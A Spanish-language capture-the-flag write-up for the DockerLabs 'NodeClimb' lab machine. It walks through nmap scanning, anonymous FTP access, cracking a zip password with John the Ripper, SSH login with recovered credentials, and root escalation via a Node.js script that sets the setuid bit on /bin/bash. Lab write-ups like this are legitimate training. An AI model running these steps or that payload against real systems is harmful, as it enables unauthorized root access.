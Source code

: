 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# NodeClimb DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip nodeclimb.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh nodeclimb.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:57 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000053s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.71 second
```

Vemos que hay un `FTP` por lo que vamos a ver si podemos meternos de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estamos dentro, si listamos lo que contiene veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||54817|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.
```

Vemos que hay un archivo llamado `secretitopicaron.zip`, por lo que nos lodescargaremos de la siguiente forma:

```shell
get secretitopicaron.zip
```

Ahora nos saldremos del `FTP` y veremos si podemos descomprimir el archivo, pero si lo intentamos veremos que esta protegido con contraseña, por lo que la intentaremos `crackear` de la siguiente forma:

## John The Ripper

```shell
zip2john secretitopicaron.zip > hash
```

Ahora intentaremos `crackear` el `hash` que obtuvimos del `ZIP`:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-01-25 10:26) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contraseña es `password1` por lo que haremos lo siguiente.

## Escalate user mario

```shell
unzip secretitopicaron.zip
```

Metemos como contraseña `password1` y veremos que se nos descomprimio de forma correcta y obtendremos un archivo llamado `password.txt` que si lo leemos veremos lo siguiente:

```shell
cat password.txt
```

Info:

```
mario:laKontraseñAmasmalotaHdelbarrioH
```

Ahora probaremos a conectarnos por `ssh`.

### SSH

```shell
ssh mario@<IP>
```

Metemos como contraseña `laKontraseñAmasmalotaHdelbarrioH` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mario on ce01e9447984:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on ce01e9447984:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Vemos que podemos ejecutar el binario `node` junto al `script.js` como el usuario `root`, por lo que haremos lo siguiente:

Si vemos los permisos que tiene el `script.js` veremos lo siguiente:

```shell
ls -la /home/mario/script.js
```

Info:

```
-rw-r--r-- 1 mario mario 0 Jul  5  2024 /home/mario/script.js
```

Vemos que tenemos permiso para poder editarlo o hacer lo que queramos, por lo que haremos lo siguiente.

> script.js

```js
const { exec } = require("child_process");

// Comando para habilitar el bit setuid en /bin/bash
const command = "chmod u+s /bin/bash";

exec(command, (error, stdout, stderr) => {
  if (error) {
    console.error(`Error ejecutando el comando: ${error.message}`);
    return;
  }
  if (stderr) {
    console.error(`Error de salida: ${stderr}`);
    return;
  }
  console.log(`Comando ejecutado exitosamente: ${stdout}`);
});
```

Por lo que ahora lo ejecutaremos de la siguiente forma:

```shell
sudo node /home/mario/script.js
```

Info:

```
Comando ejecutado exitosamente:
```

Ahora si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Vemos que ha funcionado perfectamente y ya tendremos la `bash` con permisos `SUID`, por lo que haremos lo siguiente:

```shell
bash -p
```

Con esto ya seremos `root` por lo que habremos terminado la maquina.
